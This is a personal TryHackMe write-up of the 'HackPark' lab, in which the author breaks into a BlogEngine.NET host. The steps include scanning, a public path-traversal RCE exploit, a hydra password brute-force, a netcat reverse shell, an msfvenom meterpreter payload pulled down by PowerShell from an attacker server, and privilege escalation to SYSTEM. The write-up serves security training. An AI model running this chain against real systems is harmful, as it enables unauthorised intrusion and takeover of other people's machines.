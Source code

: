 # HackPark [TryHackMe]

<sub>_This is a raw write-up. I write these to document important things for myself to use later if I need it. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

**NOTE:** <sub>_I purposefully skipped the walkthrough to try to exploit this machine myself. It had other ideas, used other exploits, used other metasploit methodology, everything is different in the walkthrough, so a lot of questions from the walkthrough aren't answered here, instead I simply focused on the flags._</sub>

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.244.249
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

This gave us two ports `80` and `3389` running on this machine. Let's browse the website:

```
firefox $targ3t
```

It seems to be a blog powered by something called [**BlogEngine.NET**](https://blogengine.io). It has one post, one comment, a contact page, a login interface and not much else. 

I'm going to put this through a `gobuster` and `feroxbuster` in that order.

```
gobuster dir -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.scan
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

There are groups of routes that route to the same thing, there appears to be a search engine on the site, which I either haven't noticed while browsing or it is indeed not linked anywhere. I am going to terminate `gobuster` scan, because it takes a long time and finds a lot of the same stuff.

`feroxbuster` seems to find a lot of things related to the engine this blog is built with like scripts, themes and such.

I am going to try to find a public exploit for this engine:

```
searchsploit blogengine
```

Quite a bit of results. The website's source code indicates this is a `BlogEngine 3.3.6.0` for which we have a number of exploits ranging from XML Injection to Path Traversal. I'll try one of those:

```
cp /usr/share/exploitdb/exploits/aspx/webapps/47011.py exp.py
head -20 exp.py
```

This is the description:

```
#BlogEngine.NET is vulnerable to an Directory Traversal on `/api/upload` which allows a RCE through the `theme` parameter.
```

Let's check if there is such a path there at all:

```
firefox $targ3t/api/upload
```

There seems to be something! Based on the exploit's description we need to start a reverse shell somewhere and then launch the exploit, so:

```
nc -lvnp 9876
```

And then let's run the exploit:

```
python2 exp.py -t $targ3t
```

Looks like it relies on a proxy connection `127.0.0.1:8080` which is a **Burp Suite** proxy. I'll start Burp Suite and run the exploit again, so that we can see in the Burp Suite's Proxy tab, what the exploit is trying to do.

![Burp Suite Screenshot](burp_screenshot.png "Burp suite proxy data")

Essentially, it is trying to use `admin:admin` credentials to log into the admin panel and then do a path traversal on `/api` path, which doesn't work, because those credentials are incorrect, hence Status Code `302`. 

Time to use hydra:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt $targ3t http-post-form "/Account/login.aspx:__VIEWSTATE=*...*__EVENTVALIDATION=*...*&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
```

There are hashes omitted in the first two parameters of this POST request, and we cracked the password. Apparently it's `1qaz2wsx`.

Let's try and log in:

```
firefox $targ3t/Account/login.aspx
```

Let's run the exploit again, this time indicating username and password:


```
python exp.py -t $targ3t -l <MY IP>:9876 -u admin -p 1qaz2wsx
```

And we have a reverse shell! Let's convert it to meterpreter. First, generate payload:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

Then, start a python server:

```
python -m http.server 8000
```

Then in our last shell, download the payload:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

Doesn't quite work, let's navigate somewhere, where we can download files:

```
cd C:\Users\Public\Downloads
```

And this time it worked. Now let's start a handler in metasploit:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ATTACKER IP>
set LPORT <ATTACKER PORT>
run
```

And back in our shell:

```
powershell "Start-Process 'shell-name.exe'"
```

And we got a meterpreter shell. Let's try to escalate some privileges through meterpreter:

```
load priv
getsystem
```

Seems like it worked, let's see if we can enter the Desktop of the user `jeff`:

```
cd c:/users/jeff/Desktop
```

And it's there:

```
cat user.txt
```

That's our first flag. On to the next one:

```
cd c:/Users/Administrator/Desktop
cat root.txt
```

We got both flags!
